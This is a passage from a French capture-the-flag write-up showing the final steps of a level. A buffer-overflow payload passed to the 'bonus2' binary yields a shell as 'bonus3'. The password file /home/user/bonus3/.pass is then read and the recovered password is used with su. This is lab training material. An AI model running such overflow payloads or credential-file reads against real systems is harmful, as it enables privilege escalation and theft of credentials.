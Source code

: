 8. Il manque plus qu'à initialiser la variable d'environnement `LANG` à `fi` et de lancer le programme avec les `payloads` précédemment définies pour `buffer overflow` et lancer le `shell interactif`. On exécute la fonction `whoami` pour s'assurer que l'on est bien l'utilisateur `bonus3` et non plus l'utilisateur `bonus2`. Enfin, on `cat` le fichier `/home/user/bonus3/.pass` pour obtenir le mot de passe.

    ```sh
    > export LANG=fi
    > ./bonus2 $(python -c 'print "M" * 40') $(python -c 'print "\x90" * 18 + "\xa5\xf8\xff\xbf"')
    > whoami
    bonus3
    > cat /home/user/bonus3/.pass
    71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
    ```

9. On peut à présent passer au niveau supérieur en exécutant la commande `su bonus3` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su bonus3
    Password :
    > 71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
    ```










